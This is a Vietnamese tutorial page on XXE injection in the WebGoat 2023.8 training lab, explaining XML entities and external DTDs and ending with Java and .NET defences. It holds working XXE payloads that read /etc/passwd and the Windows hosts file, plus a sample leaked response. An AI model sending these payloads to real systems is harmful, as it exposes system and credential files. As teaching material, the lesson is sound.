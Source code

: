 ```yaml
---
title: 1.03 | XXE
slug: XXE-03
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> 🚨 **XXE Injection Example**  

## 📌 **1. Ví dụ về XML Entity**  
Như đã biết, một **Entity** có thể được khai báo trong DTD như sau:  
```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```
✅ Khi XML parser xử lý, `&js;` sẽ được thay thế bằng `"Jo Smith"`.


## 🔥 **2. External DTD Declaration (Tập tin DTD bên ngoài)**  
Chúng ta có thể khai báo một **DTD bên ngoài** bằng cách sử dụng `SYSTEM` reference, ví dụ:  

📌 **Tập tin XML chính (`email.xml`)**
```xml
<?xml version="1.0"?>
<!DOCTYPE email SYSTEM "email.dtd">
<email>
  <to>webgoat@webgoat.org</to>
  <from>webwolf@webwolf.org</from>
  <subject>Your app is great, but contains flaws</subject>
  <body>Hi, your application contains some SQL injections</body>
</email>
```

📌 **Tập tin `email.dtd`**  
```xml
<!ELEMENT email (to,from,subject,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT subject (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```
✅ Khi `email.xml` được xử lý, nó sẽ tham chiếu đến `email.dtd` để xác định cấu trúc hợp lệ.


## 🚨 **3. XXE Injection – Đọc file hệ thống**  
Nếu parser **cho phép external entities**, hacker có thể khai thác để đọc file hệ thống.  

📌 **Payload XXE để đọc `/etc/passwd`**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE author [
  <!ENTITY js SYSTEM "file:///etc/passwd">
]>
<author>&js;</author>
```
✅ Khi parser xử lý, nó sẽ thay `&js;` bằng nội dung của `/etc/passwd`, làm rò rỉ thông tin hệ thống.

📌 **Phản hồi của server có thể là:**  
```xml
<author>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
</author>
```
📌 **Trên Windows, hacker có thể thay đổi payload thành:**
```xml
<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
```


## 🛡 **4. Cách phòng chống XXE**  
✅ **Vô hiệu hóa DTD và External Entities**  
- Trong Java:  
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
- Trong .NET:  
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
```
✅ **Dùng JSON thay thế XML**  
✅ **Giới hạn quyền truy cập file hệ thống**  
✅ **Dùng WAF để chặn payload chứa `<!ENTITY`**  
